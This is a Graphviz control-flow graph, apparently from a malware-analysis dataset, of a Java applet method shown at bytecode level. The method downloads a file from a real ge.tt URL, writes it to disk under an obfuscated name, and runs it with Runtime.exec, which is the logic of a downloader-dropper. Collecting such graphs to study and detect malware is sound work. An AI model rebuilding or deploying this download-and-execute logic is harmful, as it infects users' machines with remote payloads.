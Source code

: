 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push null"
    "push 0"->"push null";
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "ifnull return"
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"ifnull return";
    "new java.io.BufferedInputStream"
    "ifnull return"->"new java.io.BufferedInputStream";
    "store.r $r5"
    "new java.io.BufferedInputStream"->"store.r $r5";
    "load.r $r5"
    "store.r $r5"->"load.r $r5";
    "new java.net.URL"
    "load.r $r5"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "push \"http://ge.tt/api/1/files/63Hv2mU/0/blob?download\""
    "dup1.r"->"push \"http://ge.tt/api/1/files/63Hv2mU/0/blob?download\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://ge.tt/api/1/files/63Hv2mU/0/blob?download\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "store.r r3"
    "new java.io.FileOutputStream"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "load.r r3"->"load.r r0";
    "fieldget <Java: java.lang.String[] AAA>"
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "push 1"
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r $r13"
    "new java.io.BufferedOutputStream"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r3";
    "push \"1\""
    "load.r r3"->"push \"1\"";
    "push \"1\""->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"24\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"24\"";
    "push \"24\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "push 1024"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "i2l"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"i2l";
    "store.l $l8"
    "i2l"->"store.l $l8";
    "store.l $l8"->"load.r $r5";
    "load.r $r5"->"load.r r3";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r3"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i $i4"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i $i4";
    "load.i $i4"
    "store.i $i4"->"load.i $i4";
    "push -1"
    "load.i $i4"->"push -1";
    "ifcmpeq.i load.r $r13"
    "push -1"->"ifcmpeq.i load.r $r13";
    "ifcmpeq.i load.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r3";
    "load.r r3"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i $i4";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i4"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"load.i $i4";
    "load.i $i4"->"i2l";
    "i2l"->"store.l $l8";
    "goto load.r $r5"
    "store.l $l8"->"goto load.r $r5";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"store.r $r5";
    "store.r $r5"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.System: void exit(int)>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticinvoke <java.lang.System: void exit(int)>";
    "return"
    "staticinvoke <java.lang.System: void exit(int)>"->"return";
    "ifcmpeq.i load.r $r13"->"load.r $r13";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r13"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r $r5";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r $r5"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "new java.io.File"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq goto return"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq goto return";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq goto return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "ifnull load.r r0"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "push 3"
    "load.r r0"->"push 3";
    "push 3"->"push null";
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "pop"
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"pop";
    "goto goto return"
    "pop"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "ifnull load.r r0"->"load.r r0";
    "load.r r0"->"push 3";
    "push 3"->"push null";
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"pop";
}
